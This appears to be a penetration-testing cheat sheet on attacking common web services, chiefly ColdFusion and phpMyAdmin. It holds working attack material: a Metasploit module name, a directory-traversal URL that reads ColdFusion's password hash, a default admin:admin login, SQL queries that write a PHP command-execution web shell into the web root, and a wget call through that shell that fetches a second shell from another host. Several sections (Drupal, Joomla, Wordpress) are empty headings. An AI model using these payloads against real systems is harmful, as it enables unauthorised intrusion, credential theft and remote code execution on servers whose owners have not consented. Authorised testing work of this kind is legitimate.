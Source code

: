 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold.
http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl
It will say something like:
```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR


This works for version 8.0.1. So make sure to check the exact version.
```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password. 
```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilites. The old versions at least.

http://example.com/vtigercrm/
default login is
admin:admin

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:
```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL. 

```
Run SQL query/queries on server "localhost":
```
From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp. 



## Wordpress
